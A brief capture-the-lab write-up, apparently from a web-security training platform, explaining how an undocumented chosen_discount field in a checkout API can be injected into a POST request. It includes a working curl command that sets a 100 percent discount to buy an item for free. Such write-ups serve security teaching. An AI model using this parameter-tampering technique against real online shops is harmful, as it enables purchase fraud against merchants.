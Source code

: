 Looking at this get request we see the `chosen_discount`parameter which is not present in the POST request created when calling the same API endpoint.

Adding a chosen discound of 100 percent should allow us to buy the jacket. This is done by adding the chosen_discount object to the POST request:

```curl
curl -X POST https://0aa2008304194bee82ae602b009500fe.web-security-academy.net/api/checkout -d'{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}' -H 'Cookie: session=SZseUaiOmShMxsE8X6rVeYjOV49KENlM'
```

This solved the lab.

